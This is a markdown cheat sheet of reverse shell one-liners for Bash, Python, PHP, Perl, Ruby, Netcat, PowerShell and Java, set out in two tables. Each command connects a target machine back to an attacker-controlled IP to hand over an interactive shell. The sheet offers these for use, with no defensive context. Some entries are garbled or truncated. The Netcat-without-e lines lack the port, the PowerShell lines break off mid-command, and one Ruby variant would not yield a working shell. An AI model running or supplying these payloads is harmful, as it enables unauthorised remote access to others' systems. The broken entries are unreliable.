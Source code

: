 | **Language/Tool** | **Reverse Shell Command** | **Notes** |
| --- | --- | --- |
| **Bash** | `bash -i >& /dev/tcp/<attacker_IP>/<port> 0>&1` | Simple Bash reverse shell. |
| **Python** | `python -c 'import socket,os,pty; s=socket.socket(); s.connect(("<attacker_IP>",<port>)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); pty.spawn("/bin/bash")'` | Requires Python on the target system. |
| **Python3** | `python3 -c 'import socket,os,pty; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("<attacker_IP>",<port>)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); pty.spawn("/bin/bash")'` | Updated for Python3 syntax. |
| **PHP** | `php -r '$sock=fsockopen("<attacker_IP>",<port>); exec("/bin/sh -i <&3 >&3 2>&3");'` | Requires PHP installed on the target. |
| **Perl** | `perl -e 'use Socket; $i="<attacker_IP>"; $p=<port>; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); connect(S,sockaddr_in($p,inet_aton($i))); open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");'` | Works with systems that have Perl installed. |
| **Ruby** | `ruby -rsocket -e 'exit if fork; s=TCPSocket.new("<attacker_IP>",<port>); loop { c=TCPSocket.new("<attacker_IP>",<port>); IO.copy_stream(c, s); IO.copy_stream(s, c) }'` | Requires Ruby installed on the target. |
| **Netcat** | `nc -e /bin/bash <attacker_IP> <port>` | Works if Netcat supports the `-e` flag. |
| **Netcat (Without -e)** | `mkfifo /tmp/f; nc <attacker_IP>  < /tmp/f | /bin/bash > /tmp/f` |
| **PowerShell** | `powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<attacker_IP>",);$stream = $client.GetStream();[byte[]]$bytes = 0..65535 | %{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 |
| **Java** | `java -cp . ReverseShell <attacker_IP> <port>`  *(Java Code Required)* | Requires a compiled Java program for reverse shell (code can be written in a file and compiled). |

---

### **One-Liner Reverse Shells**

| **Language/Tool** | **One-Liner Reverse Shell Command** |
| --- | --- |
| **Bash** | `bash -i >& /dev/tcp/<attacker_IP>/<port> 0>&1` |
| **Python** | `python -c 'import socket,os,pty; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("<attacker_IP>",<port>)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); pty.spawn("/bin/bash")'` |
| **PHP** | `php -r '$sock=fsockopen("<attacker_IP>",<port>); exec("/bin/sh -i <&3 >&3 2>&3");'` |
| **Perl** | `perl -e 'use Socket; $i="<attacker_IP>"; $p=<port>; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); connect(S,sockaddr_in($p,inet_aton($i))); open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");'` |
| **Ruby** | `ruby -rsocket -e 'exit if fork; s=TCPSocket.new("<attacker_IP>",<port>); exec "/bin/sh -i"'` |
| **Netcat** | `nc -e /bin/bash <attacker_IP> <port>` |
| **Netcat (Without -e)** | `mkfifo /tmp/f; nc <attacker_IP>  < /tmp/f |
| **PowerShell** | `powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<attacker_IP>",<port>);` |

---
